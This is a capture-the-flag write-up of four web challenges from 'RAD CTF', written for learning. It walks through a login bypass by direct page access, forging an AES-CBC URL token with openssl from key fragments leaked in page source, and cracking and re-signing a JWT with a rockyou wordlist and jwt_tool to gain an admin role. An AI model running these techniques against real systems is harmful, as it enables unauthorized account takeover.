# RAD CTF – Web Challenges Writeup


---
# 1. Echo Beyond the Horizon

### points 100



## Challenge Description

For decades, humanity listened to the stars, waiting for something to answer back.

Recently, a faint signal appeared — not from deep space, but buried within the digital noise of Earth's networks. The transmission is fragmented, scattered across public channels as if someone deliberately left a trail.

Investigators tracing the anomaly discovered the first fragment hidden within the broadcasts of the organizing mission. Observers claim that interacting with the signal — specifically by transmitting a response containing the keyword **“zerotrace”** — triggers an automated relay.

That relay points toward an archive maintained by **ZeroTrace**, a repository believed to store remnants of the original transmission.

The archive is publicly accessible, but its systems are selective.

> Only explorers who establish communication through the correct channel will receive the final transmission.

Flag Format: `RAD{...}`

---

## Investigation

The challenge description suggested that the signal fragments were distributed through **public communication channels**.

The challenge page referenced the organizers' **Instagram page**:

[https://www.instagram.com/cyberzee_srm/](https://www.instagram.com/cyberzee_srm/)



Upon comments on the post, a dm received  pointing to the domain:

```
zerotrace.in/
```

Visiting the website led to a **signup page**.



Registering with any email and password triggered a **confirmation email**.

Inside the email, the **flag** was revealed.



---

## Flag

```
RAD{zerotrace_grand_ctf_coming_with_company_hiring_and_cash_prize_stay_tuned}
```

---

# 2. Event Horizon Authentication

### points 150

The Endurance station has been drifting dangerously close to the **Event Horizon of a black hole**.

The authentication system continuously recalculates credentials every few seconds, making it difficult to log in manually before the page refreshes.

Engineers left a final hint in the logs:

> “Time behaves differently near the horizon. If you want access, you’ll have to stop time… or move faster than it.”

Target:

```
http://34.131.85.155:5001/
```


---

## Investigation

Viewing the **page source** revealed that the **username and password were present inside HTML comments**.

However, the page **refreshes every 3 seconds**, preventing manual login before the credentials expire.



Further analysis revealed an interesting redirect after login.



After authentication, the application redirected to:
```
ewgfedfgeeicuhseunchaidvdsvb.html
```

Instead of racing against the refresh timer, the hidden page was accessed directly by visiting:

```
http://34.131.85.155:5001/ewgfedfgeeicuhseunchaidvdsvb.html
```

This bypassed the login process entirely.


## Flag

```
RAD{3v3nt_H0r1z0n_By_P4553d}
```

---

## Additional Hint Discovered

The page also contained an additional message:

```
Keep this, you might need it later... maybe for another challenge?
cooper:Majnu_bhai_was_here
```

This hint becomes important in the next challenge.

---

# 3. Gargantua Relay Station

### points 300

The **Deep Space Signal Relay Station** transmits encrypted communications between astronauts.
Each crew member accesses the system using a **secure encrypted token embedded in the URL**.
Mission Control suspects that the **Admin console** contains restricted transmissions.

Target:

```
http://34.131.215.196:8080/login
```



---

## Source Code Analysis

The login page source contained cryptographic fragments.

```html
<!-- SYS_LOG: Initialization sequence incomplete. ENCRYPTION_PROTOCOL = "AES-256-CBC" PADDING_STANDARD = "PKCS7" FRAGMENT_1_B64 = "Z3Jhdml0eV8=" -->
```

Inside `relay.js` another fragment appeared:

```javascript
// Cryptographic Fragment Initialization
// The system requires three fragments to reconstruct the transmission key.
// SYS_NOTE: The final reconstructed key string is digested via SHA256 before encryption.
const SIGNAL_FRAG2 = "dHJhbnNjZW5kc18="; // Secondary relay transmission base
```

Another fragment:

```javascript
// Check transmission time logs
// SECURITY_WARNING: Initialization Vector (IV) entropy is critically low. Currently fixed to 16 null bytes.
const TimeMod = "dGltZQ=="; // Temporal synchronization fragment

```

---

## Base64 Decoding

Combining the fragments:
```
Z3Jhdml0eV8=
dHJhbnNjZW5kc18=
dGltZQ==
```

Decoding them results in:

```
gravity_transcends_time
```
## Decryption Analysis

Hints indicated:

| Parameter | Value                 |
| --------- | --------------------- |
| Algorithm | AES-256-CBC           |
| Padding   | PKCS7                 |
| Key       | SHA256 hash of string |
| IV        | 16 null bytes         |

Encrypted value:

---
## Login

Using the credentials discovered in the previous challenge:

```
cooper : Majnu_bhai_was_here
```

After login the system redirected to:

```
/user/42035fa0555f7d4a2389307eaaf7de0a
```

The value in the URL appeared to be **encrypted**.

```
42035fa0555f7d4a2389307eaaf7de0a
```

Convert hex to binary:

```bash
echo 42035fa0555f7d4a2389307eaaf7de0a | xxd -r -p > token.bin
```

Decrypt using OpenSSL:

```bash
openssl enc -aes-256-cbc \
-d \
-K $(echo -n "gravity_transcends_time" | sha256sum | cut -d' ' -f1) \
-iv 00000000000000000000000000000000 \
-in token.bin
```

Output:
```
cooper
```


To access the admin panel, the string **admin** was encrypted using the same method.

```bash
echo -n "admin" | openssl enc -aes-256-cbc \
-K $(echo -n "gravity_transcends_time" | sha256sum | cut -d' ' -f1) \
-iv 00000000000000000000000000000000 \
-nosalt | xxd -p
```

Output:

```
22af8ccb927c587c453d3a4efeae7656
```

Replace the token in the URL:

```
/user/22af8ccb927c587c453d3a4efeae7656
```



---

## Flag

```
RAD{k3y_sh0u1d_n07_b3_pub11c}
```

---

# 4. Endurance After Party{Solved After CTF}



The Endurance crew is hosting a party after returning from a mission.

Only **admins** can access the celebration deck.

Login credentials provided:

```
username: cooper
password: ranger
```

Target:
```
http://34.131.85.155:5050/login
```

---

## Login

After login, the application issued a **JWT token**.



Token:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...
```



Decoded payload:



```
{
 "username": "cooper",
 "role": "user",
 "ship": "endurance",
 "exp": 1773607225
}
```

## Secret Key Discovery

The hint suggested using **“endurance with everything”**.

A modified wordlist was generated:

```bash
sed 's/$/endurance/' /usr/share/wordlists/rockyou.txt > rockyou_endurance.txt
```

Then the token was cracked:

```bash
python3 jwt_tool.py <TOKEN> -C -d rockyou_endurance.txt
```

Secret key discovered:

```
galaxyendurance
```



---

## Privilege Escalation

The payload was modified:

```
"role": "admin"
```

A new signed token was generated.



Replacing the token granted access.



However, pressing **Transmit** required an additional parameter:

```
ride_code=
```



---

## Steganography Analysis

Two unused images were found in the source.



Downloaded images:

```
/static/stars.png
/static/hangar.png
```

Using `zsteg`:

### stars.png

```
"The party is in the hanger not the stars"
```

### hangar.png

```
pbqr=raqhenapr_cnegl
```

Decoding with **ROT13**:

```
code=endurance_party
```

---

## Final Request

Submitting:

```
ride_code=endurance_party
```

Returned response headers containing the flag.



```
X-Endurance-Transmission: RAD{C00P3R_3NDU8ANC3}
```

---
## Flag

```
RAD{C00P3R_3NDU8ANC3}
```

---

## 🧑‍💻 Author

Morningstar -  Cyber-security Learner & CTF Player
